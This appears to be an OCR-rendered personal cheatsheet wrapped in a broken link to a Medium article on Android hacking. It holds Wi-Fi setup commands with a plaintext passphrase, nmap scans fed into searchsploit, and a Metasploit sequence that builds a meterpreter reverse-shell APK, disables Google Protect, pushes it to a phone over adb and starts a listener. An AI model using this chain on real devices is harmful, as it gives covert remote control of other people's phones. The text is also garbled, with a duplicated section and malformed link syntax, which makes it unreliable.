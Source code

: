[https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

# Wifi Cheatsheet

sudo iwlist wlan0 scan

wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf

sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf

sudo dhclient wlan0 -r
  
Other:
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe rtl8187 ps_enable=1   
  
 - Run changes on boot   
 echo 'options ath9k ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  
](https://medium.com/nybles/exploring-android-hacking-with-metasploit-framework-2306c3511698

## Network Analysis  
nmap -sn 192.168.1.*  
nmap {ips} -A -oX hosts.xml  
searchsploit --nmap hosts.xml --json 2>&1 | tee result.json  
   
## MSF EZ Cheatsheet  
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.126 LPORT=4444 -o android_client.apk  
  
disable Google Protect  
adb connect 192.168.110.230  
adb push android_client.apk /storage/self/primary  
  
msfconsole  
set PAYLOAD multi/handler  
set LHOST 192.168.110.126  
set LPORT 4444  
exploit  

## Wi-Fi Cheatsheet

sudo iwlist wlan0 scan
wpa_passphrase "HP Deskjet 2060" Ocarina8080 | sudo tee AP/wifi_wpa_supplicant.conf
sudo wpa_supplicant -B -i wlan0 -c AP/wifi_wpa_supplicant.conf
sudo dhclient wlan0 -r
MAC: cat /sys/class/net/wlan0/address  

Other:  
 - List drivers  
 ethtool -i wlan0  
  
 - List driver info  
 /sbin/modinfo rtl8187  
  
 - Enable Power Management  
 sudo modprobe -r rtl8187  
 sudo modprobe rtl8187 ps_enable=1  
  
 - Run changes on boot  
 sudo echo 'options rtl8187 ps_enable=1' >> /etc/modprobe.d/rtl8187.conf  


ERROR  
nl80211: kernel reports: Match already configured  
)
